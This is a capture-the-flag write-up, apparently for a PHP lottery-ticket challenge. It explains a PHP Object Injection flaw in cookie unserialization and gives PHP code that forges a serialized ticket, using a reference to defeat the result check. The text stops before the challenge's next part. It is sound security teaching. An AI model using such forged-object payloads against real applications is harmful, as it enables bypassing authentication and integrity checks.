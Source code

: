 Looking at the flow of this web app, it works as follows:
1. You enter the name of the ticket owner.
2. You select numbers on the ticket. There are 6 boxes, and you can choose numbers between 0-45.
3. Check the ticket. If the numbers in the boxes match `$result`, the flag is returned.

### Observations

The first thing that caught my eye when reading the code was the use of `serialize()` and `unserialize()` — a typical sign of POI (PHP Object Injection). Indeed, we can `serialize()` a `VietlottTicket` object with custom attributes (payload) and then set it in the cookie like this:

```php
<?php
class VietlottTicket {
    public $owner;
    public $result;
    public $choices;
    public $checksum;
}

$base_ticket = new VietlottTicket();
$base_ticket->owner = "haha";
$base_ticket->choices = [33,10,15,32,40,13];
$base_ticket->result = [33,10,15,32,40,13]; 
$serialized = serialize($base_ticket);
echo $serialized . "\n";
?>
```

However, there’s an issue: in the `verify()` function, the `$result` array is rolled and overwritten, replacing the values we set, and then compared with each element in `$choices`. So, is there a way to ensure that even when the values change, the elements of these two arrays remain the same? At this point, we think about using references. In PHP, references exist just like in C++, and their behavior is similar. Thus, the above payload is adjusted as follows:

```php
<?php
class VietlottTicket {
    public $owner;
    public $result;
    public $choices;
    public $checksum;
}

$base_ticket = new VietlottTicket();
$base_ticket->owner = "haha";
$base_ticket->choices = [33,10,15,32,40,13];
$base_ticket->result = &$base_ticket->choices; // Reference
$serialized = serialize($base_ticket);
echo $serialized . "\n";
?>
```

But we’re not done yet. Next is the Misc part of this challenge.
